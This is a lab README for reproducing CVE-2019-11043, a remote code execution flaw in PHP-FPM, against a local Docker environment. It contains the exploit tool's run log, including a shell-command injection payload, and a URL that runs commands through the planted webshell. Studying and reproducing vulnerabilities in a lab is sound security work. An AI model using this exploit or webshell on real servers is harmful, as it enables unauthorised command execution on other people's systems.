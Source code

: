 # PHP-FPM Remote Command Execution (CVE-2019-11043)

[中文版本(Chinese version)](README.zh-cn.md)

There is a PHP remote code execution 0-Day discovered in Real World CTF 2019 Quals.

> Real World CTF 2019 Quals is a CTF challenge which was organized by Chaitin Tech in China.

References:

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## Environment setup

Start a vulnerable PHP server through following command:

```
docker compose up -d
```

After the environment is started, you can see the default page at `http://your-ip:8080/index.php`.

## Vulnerability Reproduce

Use this tool to reproduce the vulnerability, <https://github.com/neex/phuip-fpizdam>:

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

Something is show that the process is finished successfully:

![](1.png)

A webshell is written in the background of PHP-FPM, visit `http://your-ip:8080/index.php?a=id` to trigger RCE:

![](2.png)

You should notice that only part of the PHP-FPM child process is polluted, so please try a few more times to execute the command.
